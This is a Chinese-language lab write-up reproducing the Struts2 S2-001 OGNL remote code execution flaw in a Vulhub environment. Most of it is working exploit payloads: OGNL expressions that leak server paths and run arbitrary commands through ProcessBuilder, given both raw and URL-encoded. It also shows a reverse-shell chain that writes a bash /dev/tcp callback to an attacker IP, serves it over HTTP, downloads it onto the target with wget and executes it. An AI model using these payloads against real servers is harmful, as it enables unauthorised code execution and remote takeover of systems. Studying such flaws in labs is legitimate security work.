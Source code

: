 # Struts2 S2-001 远程代码执行漏洞

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考文章：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub执行以下命令启动s2-001测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![image-20220301154735903](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011547043.png)

### 反弹shell

准备反弹Shell文件shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155634793](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011556922.png)

执行shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155834822](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011558934.png)

监听9999端口，接收反弹shell：

![image-20220301155706920](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011557020.png)


